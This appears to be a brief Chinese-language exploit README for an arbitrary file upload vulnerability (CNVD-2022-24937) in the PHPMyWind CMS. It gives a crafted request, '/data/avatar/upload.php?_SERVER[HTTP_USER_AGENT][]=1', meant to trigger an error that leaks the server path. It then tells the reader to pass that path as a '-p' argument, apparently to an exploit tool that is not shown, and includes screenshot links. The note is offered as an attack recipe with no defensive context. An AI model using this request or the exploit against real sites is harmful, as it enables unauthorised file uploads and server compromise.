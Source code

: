 # PHPMyWind(CNVD_2022_24937) 任意文件上传
![image](https://user-images.githubusercontent.com/53397197/187666967-9d65e970-8b1c-4137-bfe2-eeae91de7e6e.png)
查看报错信息:/data/avatar/upload.php?_SERVER[HTTP_USER_AGENT][]=1 设置-p 参数为网站绝对路径
![image](https://user-images.githubusercontent.com/53397197/187666995-75fe9c99-12a5-4e08-a1c9-95af84bb0827.png)

